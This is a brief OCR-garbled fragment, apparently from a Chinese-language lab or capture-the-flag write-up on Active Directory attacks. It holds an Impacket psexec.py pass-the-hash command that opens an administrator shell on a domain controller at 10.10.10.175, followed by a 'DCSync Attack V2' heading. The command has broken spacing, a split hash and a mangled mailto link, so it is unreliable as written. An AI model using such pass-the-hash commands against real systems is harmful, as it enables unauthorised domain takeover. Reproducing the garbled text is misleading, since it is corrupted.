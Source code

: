 # 外壳

[psexec . py](http://psexec.py/)-hashes ' aad3b 435 b 51404 eeaad3b 435 b 51404 ee:d 9485863 C1 e9 e 05851 aa 40 cbb 4 ab 9 dff '-DC-IP 10 . 10 . 10 . 175[administrator @ 10 . 10 . 10 . 10 . 175](mailto:administrator@10.10.10.175)

![](img/246308f4c955bf8cccee815a78814e81.png)

# DCSync 攻击 V2
